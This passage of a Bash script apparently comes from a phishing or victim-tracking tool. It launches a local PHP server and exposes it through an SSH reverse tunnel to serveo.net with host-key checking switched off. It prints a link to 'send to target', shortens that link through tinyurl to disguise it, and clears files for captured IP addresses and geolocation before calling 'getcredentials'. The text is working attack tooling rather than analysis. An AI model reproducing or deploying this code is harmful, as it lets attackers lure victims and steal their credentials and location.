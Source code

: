 getcredentials
}

##
serverx() {
printf "\e[1;92m[\e[0m*\e[1;92m] Starting php server...\n"
php -t "server/" -S 127.0.0.1:$port > /dev/null 2>&1 & 
sleep 2
printf "\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Starting server...\e[0m\n"
command -v ssh > /dev/null 2>&1 || { echo >&2 "I require SSH but it's not installed. Install it. Aborting."; exit 1; }
if [[ -e sendlink ]]; then
rm -rf sendlink
fi
$(which sh) -c 'ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -R 80:localhost:'$port' serveo.net 2> /dev/null > sendlink ' &
printf "\n"
sleep 4 # &
send_link=$(grep -o "https://[0-9a-z]*\.serveo.net" sendlink)
printf "\n"
printf '\n\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Send the direct link to target:\e[0m\e[1;77m %s \n' $send_link
send_ip=$(curl -s http://tinyurl.com/api-create.php?url=$send_link)
printf '\n\e[1;93m[\e[0m\e[1;77m*\e[0m\e[1;93m] Or using tinyurl:\e[0m\e[1;77m %s \n' $send_ip
printf "\n"
checkfound


}

startx() {
if [[ -e server/ip.txt ]]; then
rm -rf server/ip.txt

fi
if [[ -e server/geolocate.txt ]]; then
rm -rf server/geolocate.txt

fi

if [[ -e server/error.txt ]]; then
rm -rf server/error.txt

fi

default_port=$(seq 1111 4444 | sort -R | head -n1)
printf '\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Choose a Port (Default:\e[0m\e[1;77m %s \e[0m\e[1;92m): \e[0m' $default_port
read port
port="${port:-${default_port}}"
serverx

}


##
